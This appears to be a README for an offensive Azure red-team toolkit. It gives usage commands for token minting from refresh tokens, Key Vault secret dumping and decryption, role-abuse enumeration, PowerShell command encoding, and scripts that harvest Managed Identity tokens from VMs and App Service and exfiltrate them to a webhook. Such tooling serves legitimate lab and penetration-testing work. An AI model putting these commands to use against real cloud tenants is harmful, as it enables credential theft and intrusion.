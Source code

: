 # 🔓 azure-insecurity-tools

**A growing collection of offensive Azure tools and scripts** designed to support cloud red teaming, lab work, and deep exploration of Microsoft cloud internals.

---

## 📦 What's Inside

This repo will evolve as I learn more about attacking Azure. The focus is hands-on, practical tooling for real-world and lab scenarios.

### ✅ Initial Tool: `token_multiplexer.py`

Use a single `refresh_token` to mint multiple `access_token`s across different Azure resource scopes (Graph, Key Vault, ARM, etc).

#### Features
- Exchanges refresh tokens for any `.default` scoped resource
- Decodes JWT and extracts `aud`, `scp`, and `exp` claims
- Built as a CLI for flexible reuse
- Useful in phishing/OAuth abuse scenarios like AzRTE labs

#### Example Usage
```bash
python token_multiplexer.py \
  --refresh-token "<paste_here>" \
  --client-id "your-app-client-id" \
  --client-secret "your-app-client-secret" \
  --scope "https://vault.azure.net/.default"
```

### 🔑 kv-dump-old-versions.py — Enumerate and Dump Azure Key Vault Secret Versions

This script enumerates secrets in Azure Key Vaults and retrieves all available versions, including old values that might remain after rotation.

#### Features
- Works on a single vault or all vaults in a subscription.
- Dumps all secret versions with flags for which one is latest.
- Supports table view (human-friendly) and JSON output (machine-friendly).
- Flags old values that differ from the latest version.

#### Usage
```bash
# Enumerate all vaults in a subscription
python3 kv-dump-old-versions.py --subscription-id <subscription-id>

# Target a specific vault and output as JSON
python3 kv-dump-old-versions.py --vault kv-1-2e693029 --output json
```

### 🔢 kv-rsa-decrypt.py

Tries common RSA algorithms against a given Key Vault key ID. Uses `az` under the hood to leverage existing logon.

#### Usage
```bash
python3 kv-rsa-decrypt.py \
  --key-id "https://kv-2-xxxx.vault.azure.net/keys/key-2-xxxx/<version>" \
  --ciphertext-b64 "G067ensX6Zgz...=="  # full base64 blob

# or force a specific algo:
python3 kv-rsa-decrypt.py --key-id ... --ciphertext-b64 ... --algo RSA-OAEP
```

### 🗑️ kv-recover-deleted.py

List and recover deleted secrets for a vault.

#### Usage
```bash
python3 kv-recover-deleted.py --vault kv-3-2e693029
python3 kv-recover-deleted.py --vault kv-3-2e693029 --recover-all
```

### 🔍 role-attack-surf.py

- Lists your role assignments at a given scope (vault/RG/subscription)
- Pulls each role definition
- Flags interesting Actions/DataActions (stuff that tends to be abusable)
- Prints a summary + optional JSON
- Suggests quick exploits (e.g., `set-policy` when it sees `accessPolicies/write`)

#### Usage
```bash
# At a vault scope (like your lab)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>"

# Filter to your SP only (faster to read)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>" \
  --assignee <client_id>

# Dump full JSON too
python3 role-attack-surf.py --scope "/subscriptions/<sub>" --json
```

### ﹟psenc.py

Output PowerShell `-EncodedCommand` string given a file, command, or stdin.

#### Usage
```bash
# direct command
python3 psenc.py -c 'Write-Host "Hello from Mac!"' --print-example

# from a file
python3 psenc.py -f payload.ps1 > encoded.txt

# from stdin (handy in pipelines)
echo '$PSVersionTable.PSVersion' | python3 psenc.py --stdin
```

### 🕸️ cse_min.py

Trigger the Azure CustomScriptExtension on a Windows VM to run a PowerShell payload that collects Managed Identity tokens (ARM + Key Vault) and exfiltrates them to a specified webhook.

#### Usage
```bash
# basic usage (System-Assigned MI)
python3 cse_min.py -g <resource-group> -n <vm-name> -w https://webhook.site/<uuid>

# with User-Assigned Managed Identity client ID
python3 cse_min.py -g <resource-group> -n <vm-name> \
    -w https://webhook.site/<uuid> \
    --uami <user-assigned-mi-client-id>

# dry run (show PowerShell and encoded command without sending)
python3 cse_min.py -g <resource-group> -n <vm-name> -w <webhook-url> --show
```

**This will:**
1. Build the PowerShell payload to grab ARM + Key Vault access tokens via IMDS.
2. Encode it to UTF-16LE Base64 for `-EncodedCommand` execution.
3. Deploy it to the target VM via Azure CLI `az vm extension set` with `CustomScriptExtension`.
4. POST results to the given webhook.

### 📦 az-vars.sh

Extracts and exports key Azure resource identifiers and settings from JSON CLI output into shell variables for quick reuse in pentest or automation workflows.

#### Usage
```bash
# Pipe Azure CLI JSON output into script
az postgres flexible-server list -o json | bash az-vars.sh

# Or execute directly if marked executable
az postgres flexible-server list -o json | ./az-vars.sh
```

**This will:**
1. Parse JSON input from stdin (e.g., `az <resource> list -o json`).
2. Extract commonly used fields like `id`, `name`, `resourceGroup`, `location`, `fqdn`.
3. Export each as an environment variable (e.g., `$AZ_NAME`, `$AZ_RG`).
4. Print them in `VAR=value` form for quick copy/paste into other commands.

---

## 🛠 Additional Tools

### appservice-harvest

Deploy a custom container to Azure App Service to harvest Managed Identity tokens and optionally execute remote commands.

- Supports System-Assigned and User-Assigned MIs
- Collects ARM + Key Vault tokens
- Exfiltrates via a configurable webhook URL

**See:** [`appservice-harvest/README.md`](./appservice-harvest/README.md) for full details, setup, and usage instructions.

---

⚠️ **Disclaimer**  
For educational and lab use only.  
Do not use these tools without explicit permission. They are intended to support self-hosted labs, CTF environments, and ethical security testing.
